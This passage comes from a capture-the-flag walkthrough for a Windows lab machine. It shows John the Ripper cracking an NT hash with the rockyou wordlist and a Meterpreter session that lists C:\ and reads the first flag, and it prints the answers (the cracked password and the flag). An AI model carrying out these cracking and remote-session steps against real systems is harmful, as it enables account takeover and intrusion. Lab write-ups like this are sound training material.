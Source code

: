 ```bash
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

**Output:**
```
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
alqfna22         (Jon)
1g 0:00:00:02 DONE (2024-01-15 10:42:33) 0.4347g/s 4425Kp/s 4425Kc/s 4425KC/s alr19882006..alpusidi
Use the "--show --format=NT" option to display all of the cracked passwords reliably
Session completed
```

**Answer:** What is the cracked password? **alqfna22**


## Task 5 - Finding the Flags

Now let's hunt for the three flags hidden on the system, which represent key locations in Windows architecture.

### Flag 1: System Root

Return to our Meterpreter session and navigate to the system root:

```bash
sessions -i 2
cd C:\
dir
cat flag1.txt
```

**Output:**
```
meterpreter > cd C:\
meterpreter > dir
Listing: C:\
============

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
40777/rwxrwxrwx   0     dir   2018-12-12 22:13:36 -0500  $Recycle.Bin
40777/rwxrwxrwx   0     dir   2009-07-14 01:08:56 -0400  Documents and Settings
40777/rwxrwxrwx   0     dir   2009-07-13 23:20:08 -0400  PerfLogs
40555/r-xr-xr-x   0     dir   2018-12-12 22:13:28 -0500  Program Files
40777/rwxrwxrwx   0     dir   2018-12-12 22:13:28 -0500  Program Files (x86)
40777/rwxrwxrwx   0     dir   2018-12-12 22:13:28 -0500  ProgramData
40777/rwxrwxrwx   0     dir   2018-12-12 22:13:32 -0500  System Volume Information
40555/r-xr-xr-x   0     dir   2018-12-12 22:13:28 -0500  Users
40777/rwxrwxrwx   0     dir   2018-12-12 22:13:28 -0500  Windows
100666/rw-rw-rw-  24    fil   2018-12-13 03:47:39 -0500  flag1.txt

meterpreter > cat flag1.txt
flag{access_the_machine}
```
